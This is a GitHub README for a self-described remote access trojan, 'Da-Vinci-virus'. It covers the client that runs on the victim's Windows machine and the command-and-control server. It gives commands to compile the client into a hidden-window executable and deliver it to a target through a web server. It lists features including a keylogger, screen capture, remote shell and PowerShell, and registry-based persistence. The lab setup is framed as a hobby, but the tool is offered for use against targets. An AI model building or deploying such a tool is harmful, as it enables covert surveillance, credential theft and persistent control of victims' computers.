

# Da-Vinci-virus
> 0xAryan
---

```

██████╗  █████╗       ██╗   ██╗██╗███╗   ██╗ ██████╗██╗      ██╗   ██╗██╗██████╗ ██╗   ██╗███████╗
██╔══██╗██╔══██╗      ██║   ██║██║████╗  ██║██╔════╝██║      ██║   ██║██║██╔══██╗██║   ██║██╔════╝
██║  ██║███████║█████╗██║   ██║██║██╔██╗ ██║██║     ██║█████╗██║   ██║██║██████╔╝██║   ██║███████╗
██║  ██║██╔══██║╚════╝╚██╗ ██╔╝██║██║╚██╗██║██║     ██║╚════╝╚██╗ ██╔╝██║██╔══██╗██║   ██║╚════██║
██████╔╝██║  ██║       ╚████╔╝ ██║██║ ╚████║╚██████╗██║       ╚████╔╝ ██║██║  ██║╚██████╔╝███████║
╚═════╝ ╚═╝  ╚═╝        ╚═══╝  ╚═╝╚═╝  ╚═══╝ ╚═════╝╚═╝        ╚═══╝  ╚═╝╚═╝  ╚═╝ ╚═════╝ ╚══════╝
                                                                                               
```


## Overview:
Da-Vinci-virus is rat i am writing for fun as a pet project
Our rat is divided into 2 parts:
- client
- server

### Client:
	Our malware will be running as the client software on the victem's machine
	in our case a windows 10 vm simulated using qemu

### Server:
	We have implemented out our server to ast as C2(command & control) for our
	virus which will be use to receve the call back connections from our virus
	This c2 will be running on remnux linux machine(a ubuntu linux based machine with focus on malware 
	reversing) it will also be simualted using qemu

### Network - 
    Both our client and server vm will share a same nat provided by qemu

**Software Architecture**:


## Requirements:
**Attacker PC:**
- Linux distro [Debian Based]
- Python2
- wine32
    - requests
    - pyinstaller=3.6
    - mss=4.0.2
    - pynput=1.4.2

**Target PC:**
- Windows 10

## Installation:
**Target Installation:**
- Download the exe to the target pc we can do this through diffrent steps
    - I am using a python web server to send it to target email

**Attacker Installation:**
1. Install Da-Vinci-virus by cloning this repository
```bash
git clone https://github.com/0xAryan/Da-Vinci-virus.git
```
2. Install Python2 and wine

```bash
sudo dpkg --add-architecture i386
sudo apt update && sudo apt upgrade -y
sudo apt install python2 wine32
```
3. Install the Python2 for windows in linux to compile it into exe
```bash
wget https://www.python.org/ftp/python/2.7.14/python-2.7.14.msi
wine msiexec /i python-2.7.14.msi
```
4. Install the pakages required in python2 for windows
```bash
wine ~/.wine/drive_c/Python27/python.exe -m pip install pyinstaller==3.6
wine ~/.wine/drive_c/Python27/python.exe -m pip install --upgrade pip
wine ~/.wine/drive_c/Python27/python.exe -m pip install mss==4.0.2
wine ~/.wine/drive_c/Python27/python.exe -m pip install pynput==1.4.2
```
## Configuration File:
Change the ip address and port in `server.py` to that of your host linux machines ip
you want to use to control and host the c2. Change it in `da-vinci-virus.py` as well before
compiling

## Compiling the virus into exe and sending it:
```bash
wine ~/.wine/drive_c/Python27/Scripts/pyinstaller.exe --noconsole --onefile --icon gas_mask.ico da-vinci-virus.py
python3 -m http.server  #hosting web server to download the exe to target 
```

After this we just need to browse to the http://<c2-ip>:8000 and download the exe and run it

## Features
- Gives full command-line access to the target windows pc
- `Screenshot` - We can take screenshot of the target pc screen
- `Keylogger`  - We can capture keystrokes of the what the target types 
- `Powershell` - We can use it to run powershell
- `Start `  - We can use it to run other programs like calulator, notepad etc
- `check` - It can check for admin privillages
- `backdoor` - It add a registry entry so it will run after each restart so we get persistence on target pc
- `reliable` - It keep trying to connect to use in every 20 sec till we receive the connection